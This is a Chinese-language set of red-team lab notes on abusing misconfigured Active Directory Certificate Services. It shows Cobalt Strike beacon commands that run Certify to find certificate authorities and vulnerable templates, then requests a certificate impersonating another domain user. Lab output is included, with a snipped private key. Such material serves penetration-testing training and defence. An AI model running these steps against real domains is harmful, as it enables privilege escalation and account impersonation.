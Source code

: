 # Active Directory Certificate Services

Active Directory 证书服务错误配置可能会导致权限提升（普通域用户->DA），或者权限维持。

# Finding Certificate Authorities

使用工具[Certify](https://github.com/GhostPack/Certify)

查找证书颁发机构：
```
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe cas
```

output
```
[*] Enterprise/Enrollment CAs:
....
Cert Chain                    : CN=ca-1,DC=cyberbotic,DC=io -> CN=ca-2,DC=dev,DC=cyberbotic,DC=io
```

留意``` Cert Chain```字段

注意到Cert Chain是很有用的，因为这表明DEV域的CA-2是CYBER域的CA-1的下级。 输出结果还将列出每个 CA 可用的证书模板，以及关于哪些委托人被允许管理这些模板的一些信息。


# Misconfigured Certificate Templates

使用Certify查找证书漏洞
```
beacon> getuid
[*] You are CYBER\iyates

beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /vulnerable
```

![alt Active Directory Certificate Services](https://rto-assets.s3.eu-west-2.amazonaws.com/adcs/certify-vuln-template.png?width=1920)

需要留意的信息
1. The name of the Certificate Authority is **dc-1.cyberbotic.io\ca-1**.(证书颁发机构的名称是dc-1.cyberbotic.io\ca-1)
2. The template is called **VulnerableUserTemplate**.(该模板称为VulnerableUserTemplate)
3. **ENROLLEE_SUPPLIES_SUBJECT** allows the certificate requestor to provide a SAN (subject alternative name).(ENROLLEE_SUPPLIES_SUBJECT允许证书请求者提供 SAN（主题备用名称）)
4. The certificate usage has **Client Authentication set**.(证书使用设置了客户端身份验证)
5. Domain Users have enrolment rights, so **any domain user** may request a certificate from this template(域用户具有注册权限，因此任何域用户都可以从此模板请求证书)



因为上面配置运行任何域用户请求证书，并使用它对域进行身份验证，所以这里为nglover服务请求证书
```
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-1.cyberbotic.io\ca-1 /template:VulnerableUserTemplate /altname:nglover

···
···

-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA7+QJhT7SgrP2SLWI7JqilriLBFjGRgob7sK6Gt8/EN4ODCqA
[...snip...]
EZCgtNFHJpynmPVNEcocncFPtV1hskXIElcwer/EdIROOW+qZhan
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIIGKzCCBROgAwIBAgITIQAAAAJ1qRjA3m3TOAAAAAAAAjANBgkqhkiG9w0BAQsF
[...snip...]
Xm58FnNpAvwXQi1Vu+xIdtpRSGsnl6T6/TYwJlhKqMEU9mRfgaWXgLS+HdS++aw=
```